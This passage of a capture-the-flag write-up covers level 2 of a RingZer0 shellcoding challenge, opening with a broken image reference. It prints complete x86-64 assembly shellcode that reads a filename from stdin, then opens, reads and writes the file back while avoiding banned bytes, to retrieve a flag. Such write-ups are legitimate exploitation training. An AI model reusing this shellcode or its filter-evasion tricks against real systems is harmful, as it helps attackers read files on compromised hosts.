 It spits out the shellcode, ready for copy & paste, along with the size of the shellcode. Running it versus the server yields the flag!

Level 2
-------

The password for level 2 is the flag of level 1. It seems the ante has been upped:

```
RingZer0 Team CTF Shellcoding Level 2
Submit your shellcode using hex representation "\xcc\xcd".
Type "end" to exit.

This level have shellcode restriction. Bad char list "\x0a\x0d\x2f\x2e\x62\x99" max size 50 bytes.
You main goal is to read /flag/level2.flag
```

So the previous shellcode goes right out the window. I needed to cut it in half, length-wise. Also, not all characters are allowed, so-called *bad chars*. This will restrict the instructions we can use in the shellcode. Let's have a look at how we can trim the fat off of the shellcode of level 1.

First, hard-coding the filename is out of the question. That would waste at least 18 bytes, or 36% of the shellcode. Furthermore, it would contain the bad char `0x2f` which is the slash `/`. Instead, I decided to read in the name of the file with a syscall; the rest of the shellcode then takes care of opening that file, reading from it and sending the bytes back to us.

```
bits 64

_start:
xor rax, rax        ; syscall read = 0
xor rdi, rdi        ; we'll read from stdin
mov rsi, rsp        ; one byte shorter than 'lea rsi, [rsi]'
push byte 18        ; number of bytes to read, enough for the filename
pop rdx
syscall 

xor rax, rax
inc rax
inc rax             ; syscall open
                    ; instead of setting rdi to the filename (located on the stack),
                    ; we re-use the fact that rdi is zero and rsi points to that filename
xchg rsi, rdi       ; now rsi = 0 (O_RDONLY), and rdi points to the filename we just read
syscall

xchg rax, rsi       ; after this, rsi contains the filehandle of the opened file, rax contains 0
xchg rdi, rsi       ; after this, rdi contains the filehandle and rsi points to the stack (a buffer!)
push byte 127
pop rdx             ; read 127 bytes, should be plenty
syscall             ; because we set rax to 0, this will call syscall read

xor rax, rax
inc rax             ; syscall write
mov rdi, rax        ; copy the value of rax to rdi (1 = stdout)
                    ; rsi = still pointer to buffer
                    ; rdx = still 0x7f
syscall             ; grab the flag!
```
